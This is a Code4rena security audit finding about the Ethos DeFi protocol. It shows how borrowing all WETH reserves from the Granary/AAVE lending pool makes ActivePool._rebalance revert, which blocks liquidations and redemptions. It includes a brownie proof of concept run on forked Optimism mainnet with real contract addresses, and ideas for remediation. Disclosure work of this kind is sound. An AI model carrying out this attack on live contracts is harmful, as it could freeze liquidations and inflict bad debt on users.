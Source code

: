 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- judge review requested
- primary issue
- satisfactory
- selected for report
- M-06

# [Denial of liquidations and Redemptions by borrowing all reserves from AAVE](https://github.com/code-423n4/2023-02-ethos-findings/issues/693) 

# Lines of code

https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Core/contracts/ActivePool.sol#L239
https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Vault/contracts/ReaperStrategyGranarySupplyOnly.sol#L200


# Vulnerability details

### Impact

Liquidations and Redemptions can be prevented by making [`ActivePool._rebalance`](https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Core/contracts/ActivePool.sol#L239) revert by borrowing all collateral from AAVEs lendingPool.

The ActivePool will invest in the Vault, which will use the strategy to invest in the lending pool.

When withdrawing collateral, by Closing CDPs, Redeeming or Liquidating, [`_rebalance`](https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Core/contracts/ActivePool.sol#L174) will be called.

In most logical cases (high capital efficiency), this will trigger a [withdrawal from the Strategy](https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Vault/contracts/ReaperVaultV2.sol#L385) 

Which will trigger a [withdrawawal from the LendingPool](https://github.com/code-423n4/2023-02-ethos/blob/73687f32b934c9d697b97745356cdf8a1f264955/Ethos-Vault/contracts/ReaperStrategyGranarySupplyOnly.sol#L200), 


An attacker can deny this operation [by borrowing all reserves from AAVE](https://medium.com/aave/understanding-the-risks-of-aave-43334dbfc6d0#:~:text=This%20situation%20can%20be%20problematic%20if%20depositors%20wish%20to%20withdraw%20their%20liquidity%2C%20but%20no%20funds%20are%20available.).


This will prevent all Liquidations, Redemptions as well as withdrawals, at will of the attacker.

This can be done to force the protocol to enter Recovery Mode, force re-absorptions and it can be pushed as far as to trigger bad debt.

Note that the attack can be performed maliciously without the need for a front-run, a sandwich (front-run + back-run) will just make it less costly (less interest paid) for the attacker but is not a way to prevent the attack.

### Preamble to the POC

Any time funds are pulled from the ActivePool, `_rebalance` is called.

We know that if a withdrawal is sizeable enough, `_rebalance` will trigger `Strategy._withdraw` which will attempt to `withdraw` from the lending pool.

The goal of the POC then is to show how we can make it impossible to perform a withdrawal, guaranteeing a revert on all calls to `_rebalance` which consequently will brick Redemptions and Liquidations

### POC

The POC is coded in brownie, I have setup a MockFile to be able to fork optimism, with the final addresses hardcoded in the strategy (Granary).

#### Goal of the POC

The goal of the POC is to demonstrate that withdrawals from the pool can be denied.

This shows how we can trigger a revert against `LendingPool.withdraw` which we know will cause `_rebalance` to revert as well

#### Coded POC

The following mock allows us to interact with the forked contracts

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.0;

contract LendingPool {
  function deposit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode
  ) external {}

  function borrow(
    address asset,
    uint256 amount,
    uint256 interestRateMode,
    uint16 referralCode,
    address onBehalfOf
  ) external {}

  function withdraw(
    address asset,
    uint256 amount,
    address to
  ) external {}
}
```

We can then fork optimism mainnet

```bash
brownie console --network optimism-main-fork
```

Run the following commands to show the attack

```python
## Setup addresses
lp = LendingPool.at("0x8FD4aF47E4E63d1D2D45582c3286b4BD9Bb95DfE")
a_token = interface.ERC20("0xfF94cc8E2c4B17e3CC65d7B83c7e8c643030D936")
weth = interface.ERC20("0x4200000000000000000000000000000000000006")
usdc = interface.ERC20("0x7F5c764cBc14f9669B88837ca1490cCa17c31607")

## Setup Actors
weth_whale = accounts.at("0xe50fa9b3c56ffb159cb0fca61f5c9d750e8128c8", force=True)
usdc_whale = accounts.at("0x625e7708f30ca75bfd92586e17077590c60eb4cd", force=True)

strategy = a[0]
exploiter = a[1]

## Fund Strategy with WETH
weth.transfer(strategy, 20e18, {"from": weth_whale})

## Strategy Deposits WETH
weth.approve(lp, 20e18, {"from": strategy})
lp.deposit(weth, 20e18, strategy, 0, {"from": strategy})


## Fund exploiter with USDC, they will borrow WETH
usdc.transfer(exploiter, usdc.balanceOf(usdc_whale), {"from": usdc_whale})

## Setup collateral so we can dry up WETH
usdc.approve(lp, usdc.balanceOf(exploiter), {"from": exploiter})
lp.deposit(usdc, usdc.balanceOf(exploiter), exploiter, 0, {"from": exploiter})

## Borrow Max, so no WETH is borrowable
to_borrow = weth.balanceOf(a_token)
lp.borrow(weth, to_borrow, 2, 0, exploiter, {"from": exploiter})

print(weth.balanceOf(a_token))
0 ## No weth left, next withdrawal will revert

## Strategy will not be able withdraw
to_withdraw = a_token.balanceOf(strategy)
assert to_withdraw > 0

## REVERTS HERE
lp.withdraw(weth, to_withdraw, strategy, {"from": strategy})

>>> Transaction sent: 0x2d129abc6f69d74db7567de54d9932ac406d2212c350ff7f16e66d3fb034e036
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 3
  LendingPool.withdraw confirmed (SafeMath: subtraction overflow)   Block: 79015780   Gas used: 138952 (0.69%)

```

Any time the Strategy needs to withdraw from the pool, because of `_rebalance` that withdrawal can be denied, which will consequently prevent Collateral from being pulled, which in turn will prevent Redemptions and Liquidations.

This means a overlevered malicious actor can bring down the peg of the system while preventing whichever liquidation or redemption they want


### Remediation Steps

I'm unclear as to a specific remediation, as AAVE, by design, will lend out all of it's reserves, meaning that the amount lent out should not be assumed as liquid.

Theoretically, re-balancing only manually should protect more assets, making the threshold for the attack higher.

However, any asset sent to the lending pool should be assumed illiquid, meaning that those amounts can be prevented from being withdrawable which will prevent Liquidations and Redemptions, potentially causing bad debt

### Additional Considerations

If LUSD is liquid enough to be shorted, a goal as you'd assume the token to scale, then the attack not only can be performed against the system unconditionally, but can also become profitable as the attacker can arbitrarily force bad debt for the entire portion of collateral in the lendingPool, profiting from the loss of value